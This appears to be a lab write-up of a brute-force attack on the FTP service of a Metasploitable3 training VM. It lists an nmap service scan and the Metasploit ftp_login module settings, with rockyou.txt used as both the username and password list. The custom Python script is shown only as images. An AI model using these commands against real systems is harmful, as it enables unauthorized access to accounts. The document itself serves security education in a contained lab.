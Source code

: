 **FTP Brute-Force Attack on Metasploitable3**

**Objective:** Compromise the FTP service on a Metasploitable3 victim machine using brute‑force techniques.

---

## 1. Environment Setup

### 1.1 Machines and IP Addresses

* **Attacker (Kali Linux)**

  * IP Address: `10.0.2.15`
    ![Figure 1: Attacker Network Configuration](image/Picture1.png)

* **Victim (Metasploitable3)**

  * IP Address: `10.0.2.7`
    ![Figure 2: Victim Machine Overview](image/Picture2.png)

---

## 2. Vulnerability Enumeration

### 2.1 Service Discovery with Nmap

To identify open services on the victim, we ran:

```bash
nmap -sV 10.0.2.7
```

* Key findings: FTP (port 21/tcp), SSH (22/tcp), HTTP (80/tcp), etc.

![Figure 3: Nmap Scan Results](image/Picture3.png)

### 2.2 Selecting the Target Service

The FTP service was chosen because it allows multiple login attempts, making it susceptible to brute‑force attacks.

---

## 3. Attack Execution

### 3.1 Exploitation via Metasploit Console

1. Launch Metasploit:

   ```bash
   msfconsole
   ```
2. Select the FTP login auxiliary module:

   ```bash
   use auxiliary/scanner/ftp/ftp_login
   ```
3. Configure module options:

   ```bash
   set RHOSTS 10.0.2.7
   set USER_FILE /usr/share/wordlists/rockyou.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set STOP_ON_SUCCESS true
   ```
4. Execute the attack:

   ```bash
   run
   ```

![Figure 4: Metasploit FTP Brute-Force Configuration](image/Picture4.png)

### 3.2 Custom Brute-Force Script

#### A Python script using `ftplib` was also used to automate login attempts:
![Figure 3: Nmap Scan Results](image/Picture5.png)

![script execution](image/b175ee04-b93f-44c5-804e-a121170c0c67.jpg)
